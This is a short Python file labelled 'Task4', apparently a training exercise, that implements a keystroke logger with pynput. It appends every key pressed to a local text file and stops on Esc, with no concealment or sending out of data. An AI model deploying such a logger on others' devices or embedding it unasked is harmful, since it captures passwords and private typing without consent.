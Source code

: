 # Task4
from pynput.keyboard import Key, Listener

# File to store keystrokes
log_file = "key_log.txt"

def on_press(key):
    try:
        # Record regular characters
        with open(log_file, "a") as file:
            file.write(f"{key.char}")
    except AttributeError:
        # Handle special keys (like 'space', 'enter', etc.)
        with open(log_file, "a") as file:
            if key == Key.space:
                file.write(" [SPACE] ")
            elif key == Key.enter:
                file.write(" [ENTER]\n")
            elif key == Key.backspace:
                file.write(" [BACKSPACE] ")
            else:
                file.write(f" [{key}] ")

def on_release(key):
    # Stop the keylogger when 'esc' is pressed
    if key == Key.esc:
        return False

# Start the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
